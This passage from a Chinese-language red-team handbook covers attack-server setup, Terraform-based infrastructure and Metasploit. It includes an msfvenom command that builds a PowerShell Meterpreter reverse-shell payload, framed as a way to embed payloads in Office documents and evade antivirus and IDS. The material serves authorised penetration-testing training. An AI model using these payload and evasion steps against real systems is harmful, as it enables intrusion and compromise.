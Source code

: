 我仍然建议建立强大的 IPTables 规则。因为这将是你的攻击服务器，所以最好限制 SSH 身份验证可以从何处发起， Empire/Meterpreter/Cobalt Strike的 payload 可以从何处发起，以及你所支持的任何钓鱼页面。

如果你还记得在2016年末，有人发现了未经身份验证的远程代码执行(RCE) ( https://blog.cobaltstrike.com/2016/09/28/cobalt-strike-rce-active-exploitation-reported/ )。你肯定不希望客户数据受到攻击服务器的损害。

我曾经看到一些红队在 AWS 中，使用 Docker 运行 Kali Linux (或者至少是 Metasploit) (参考: http://bit.ly/2qz2vN9 )。在我看来，虽然创建你自己的系统怎么样都可以。但是更好的选择是创建一个高效且可重复的流程来部署多台机器。使用 Lightsail 的 最大好处是一旦你将你的机器配置为你的首选项，你就可以对一台机器进行快照，并部署使用该镜像的多个全新实例。

如果你想让你的环境更上一层楼，看看 Coalfire 研究所的团队。他们构建了自定义模块来为你完成所有的艰苦工作和自动化。[Red Baron](https://github.com/Coalfire-Research/Red-Baron) 是 Terraform 的一组模块和自定义/第三方提供者，它可以为红队自动创建弹性、一次性、安全和灵活的基础设施。无论你想要构建一个钓鱼服务器，Cobalt Strike 基础设施，或创建 DNS C2 服务器，你都可以用 Terraform 做到这一切。

查看 https://github.com/Coalfire-Research/Red-Baron 并查看所有不同的模块以便快速构建你自己的基础架构。

## 红队的核心工具 
红队可能会使用很多工具，但是让我们来讨论些最核心的工具。请记住，作为一个红队成员，我们的目的不是破坏环境(虽然这是最有趣的)，而是要复制现实世界的攻击，以查看客户是否受到保护，并可以在很短的时间内检测到攻击。在前面的章节中，我们了解了如何从其他 APT 组织那里复制攻击者的概要文件和工具集，所以让我们回顾一下一些最常见的红队工具。

### Metasploit 框架
本书不会像前几本书那样深入探讨 Metasploit。尽管 [Metasploit 框架](https://github.com/rapid7/metasploit-framework/commits/master)最初是从 2003 年开发的，但它现在仍然是一个非常棒的工具。这是由于最初的开发者 H.D. Moore 和非常活跃的社区为它提供持续支持。这个社区驱动的框架，似乎每天更新，拥有所有最新的公开漏洞的利用、后渗透利用模块、辅助模块等等。

对于红队项目，我们可能使用 Metasploit 通过[MS17-010永恒之蓝漏洞](http://bit.ly/2H2PTsI)危害内部系统，以获得我们的第一个内网 shell,或者我们可能使用 Metasploit 为我们的社会工程攻击生成一个 Meterpreter payload。 

在后面的章节中，我将向你展示如何重新编译你的 Metasploit payload 并绕过杀毒软件和网络监控。

#### 混淆 Meterpreter 的 Payload
如果我们正在针对目标进行一些社工尝试，我们可能会使用 Word 或 Excel 文档作为我们的 payload（攻击载荷）的载体。 但是，一个潜在的问题是我们可能无法包含 Meterpreter 的 payload 的二进制文件或让目标机器从 Web 下载我们的 payload，因为这些操作可能会触发目标机器中的杀毒软件的警报。 所以，这里给出一个简单的解决方案，使用 PowerShell 进行模糊处理：

```shell
msfvenom -payload windows/x64/meterpreter_reverse_http -format psh -out meterpreter-64.ps1 LHOST=127.0.0.1
```

我们甚至可以将混淆提升到新的水平，并使用 [Unicorn](https://github.com/trustedsec/unicorn) 等工具生成更多模糊的基于 PowerShell 的 Meterpreter payload，我们将在本书中详细介绍这些混淆器。

![](img/1-5.PNG)

此外，使用受信任的机构签发的 SSL/TLS 证书可以帮助我们绕过某些网络中的 IDS（入侵检测系统），具体可以参考以下链接实现：[Meterpreter Paranoid Mode](https://github.com/rapid7/metasploit-framework/wiki/Meterpreter-Paranoid-Mode)。

最后，在本书的后面部分，我们将讨论如何重新编译利用 Metasploit/Meterpreter 来绕过基于主机和网络的检测工具。
